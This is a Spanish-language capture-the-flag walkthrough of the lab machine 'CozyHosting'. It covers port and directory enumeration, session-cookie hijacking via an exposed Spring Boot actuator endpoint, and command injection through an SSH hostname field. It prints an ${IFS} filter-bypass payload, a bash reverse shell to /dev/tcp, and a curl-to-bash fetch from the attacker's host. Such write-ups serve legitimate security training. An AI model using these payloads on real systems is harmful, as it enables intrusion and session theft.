

# CozyHosting

<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>Spring Boote Web Page Enumeration</li>
        <li>Information Leakage</li>
        <li>Cookie Hijacking</li>
        <li>Command Injection + Filter Bypass</li>
        <li>JAR archive inspection with JD-GUI + Information Leakage</li>
        <li>PostgreSQL Database Enumeration</li>
        <li>Cracking Hashes</li>
        <li>Abusing Sudoers Privilege (ssh) [Privilege Escalation]</li>
      </ul>
    </td>
  </tr>
</table>


## Enumeracion básica
Realizamos una enumeración básica de todos los puertos y  comprobar cuáles estan abiertos y lo exportamos al fichero `allports`.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.230 -oG allports

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63


```
Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:

```shell
nmap -sCV -p22,80 10.10.11.230 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vulnerable.

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Comprobamos la página web

Si examinamos la página web, podemos ver que usa la tecnología nginx 1.18.0 (Ubuntu). Cuando accedemos a la página web, vemos que es una página relacionada con el hosting.

```shell
whatweb http://10.10.11.230    
http://10.10.11.230 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.230], RedirectLocation[http://cozyhosting.htb], Title[301 Moved Permanently], nginx[1.18.0]
http://cozyhosting.htb [200 OK] Bootstrap, Content-Language[en-US], Country[RESERVED][ZZ], Email[info@cozyhosting.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.230], Lightbox, Script, Title[Cozy Hosting - Home], UncommonHeaders[x-content-type-options], X-Frame-Options[DENY], X-XSS-Protection[0], nginx[1.18.0]

```
## Enumeración de directorios

Usando `gobuster` vamos a realizar una enumeración de directorios para ver si encontramos algo interesante.

```shell
gobuster dir -u http://cozyhosting.htb \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 200 \
  | grep --line-buffered -v "Size: 0"
```
Obtenemos lo siguiente:
```shell
/login                (Status: 200) [Size: 4431]
/index                (Status: 200) [Size: 12706]
/admin                (Status: 401) [Size: 97]
/error                (Status: 500) [Size: 73]
```
si accedemos a `/admin` nos pide autenticación. y si accedemos a `/error` nos devuelve el siguiente error:


Si buscamos en la web sobre este error, podemos ver que es un error típico de aplicaciones Spring Boot mal configuradas que filtran información sensible en los mensajes de error.

## ¿Que es Spring Boot?
Spring Boot es un framework de desarrollo de aplicaciones Java que facilita la creación de aplicaciones web y servicios RESTful. Proporciona una configuración automática y una estructura de proyecto predefinida, lo que permite a los desarrolladores centrarse en la lógica de negocio en lugar de preocuparse por la configuración y el despliegue de la aplicación. 

Enumeramos la aplicación Spring Boot usando gobuster con la wordlist específica para Spring Boot:

```shell
gobuster dir -u http://cozyhosting.htb \
  -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt \         
  -t 200 \
  | grep --line-buffered -v "Size: 0"
```
Obtenemos lo siguiente:

```shell
/actuator/sessions    (Status: 200) [Size: 98]
/actuator             (Status: 200) [Size: 634]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/health      (Status: 200) [Size: 15]
/actuator/env/path    (Status: 200) [Size: 487]
/admin                (Status: 401) [Size: 97]
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator/beans       (Status: 200) [Size: 127224]
```
Si accedmos al directorio `/actuator/sessions` podemos ver que nos devuelve una lista de sesiones activas en la aplicación: 
Vemos que hay una sesión activa para el usuario `kanderson`:
```shell
048A76F06A5ACE604C5586CA64FD2183	"kanderson"
```
por lo tanto vamos a intentar secuestrar la cookie de sesión para el usuario `kanderson`.

Para ello copiamos la cookie de sesión y la pegamos en nuestro navegador.

## Acedemos a la pagina como kanderson

Accedemos a la página web con la cookie de sesión del usuario `kanderson` y podemos ver que hemos tomado el control de su sesión.

encontramos un sitio donde podemos entablar una conexión a partir de un campo de hosname. y un username.

si lo testeamos vamos a ver que ocurre con un ejemplo sencillo:



Al parecer se intenta conectar por ssh al host que hemos introducido.

Lo siguiente que podemos probar es a ponernos en escucha en un puerto de nuestra máquina y hacer que la aplicación intente conectarse a nuestra máquina. 

para ello utilizamos la herramienta de  `netcat`:

```shell
nc -lvnp 4444
```

Sin embargo no obtenemos ninguna conexión entrante.

## Intrusión

Suponiendo que quiere conectarse por ssh el comando que estan intentado ejecutar es el siguiente:

```shell
ssh -i private_key username@hostname
```
podemos intentar inyectar un comando malicioso en el campo hostname para intentar ejecutar un comando arbitrario en la máquina víctima.

para ello lo hacemos de la siguiente manera:
```
test;ping${IFS}-c${IFS}1${IFS}10.10.14.141;#
```
previamente nos ponemos en escucha para comprobar que los pings llegan a nuestra máquina.

```shell
sudo tcpdump -i tun0 icmp -n
```

y obtenemos lo siguiente:

```shell
16:46:57.008155 IP 10.10.11.230 > 10.10.14.141: ICMP echo request, id 2, seq 1, length 64
16:46:57.010103 IP 10.10.14.141 > 10.10.11.230: ICMP echo reply, id 2, seq 1, length 64
```
Confirmamos que los pings llegan a nuestra máquina, por lo tanto vamos a intentar ejecutar una reverse shell.
para ello usamos el siguiente payload:

```shell
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.49/4444 0>&1' > rev.sh
```
montamos un servidor web para servir el script `rev.sh`:
```shell
python3 -m http.server 7000
```

Nos ponemos en escucha con la herramienta `penelope`y ejecutamos el siguiente payload:

```shell
test;curl${IFS}http://10.10.14.49:7000/rev.sh|bash;
```

Obtenemos una shell 

## User pivoting